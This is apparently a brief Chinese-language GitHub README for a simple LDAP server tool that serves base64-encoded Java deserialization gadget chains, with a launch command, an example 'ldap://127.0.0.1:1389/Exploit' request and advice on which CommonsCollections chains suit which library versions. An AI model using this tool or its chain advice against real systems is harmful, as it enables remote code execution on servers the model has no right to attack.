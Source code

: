 # LDAP-Server

一个简单的LADP服务器

> java -jar LDAPUnserial-Tool.jar LDAP端口 'base64编码后的链'
> 客户端请求：ldap://127.0.0.1:1389/Exploit
> CommonsCollections版本为3.x: 建议使用CC6
> CommonsCollections版本为4.x: 建议使用CC2、CC4
